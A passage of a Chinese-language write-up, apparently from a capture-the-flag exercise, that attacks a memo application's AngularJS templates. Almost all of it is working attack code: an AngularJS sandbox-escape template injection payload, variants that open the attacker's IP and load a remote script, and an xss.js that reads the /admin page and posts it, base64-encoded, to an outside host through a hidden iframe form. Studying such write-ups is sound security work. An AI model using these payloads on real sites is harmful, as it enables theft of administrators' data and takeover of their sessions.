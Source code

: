 ```
/api/memos/admintest2313
```

直接可以在这里看到使用的AngularJS模板，直接查找相应的模板漏洞

```
`{``{`'a'.constructor.prototype.charAt=[].join;$eval('x=1`}` `}` `}`;alert(1)//');`}`
```

然后直接利用xss反弹到自己的服务器上，看看能获取什么

```
`{``{`'a'.constructor.prototype.charAt=[].join;$eval('x=1`}` `}` `}`;window.open("你的ip")//');`}``}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9172841-9797fb51e9f49063.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

```
`{``{`'a'.constructor.prototype.charAt=[].join;$eval('x=1`}` `}` `}`;eval(atob('$.getScript('http://xxxxxxxxxxxxx/xss1.js');'))//');`}``}`
```

```
xss.js
$.ajax(`{`
    url: "/admin",
    type: "GET",
    dataType: "text",
    success: function(result) `{`
        var code = btoa(encodeURIComponent(result));
        xssPost('http://xxxxxxxxxxxxxxxx', code);
    `}`,
    error: function(msg) `{`

    `}`
`}`)

function xssPost(url, postStr) `{`
    var de;
    de = document.body.appendChild(document.createElement('iframe'));
    de.src = 'about:blank';
    de.height = 1;
    de.width = 1;
    de.contentDocument.write('&lt;form method="POST" action="' + url + '"&gt;&lt;input name="code" value="' + postStr + '"/&gt;&lt;/form&gt;');
    de.contentDocument.forms[0].submit();
    de.style.display = 'none';
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://upload-images.jianshu.io/upload_images/9172841-70e56c99dbcf50f7.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240) 把那一堆base64解密
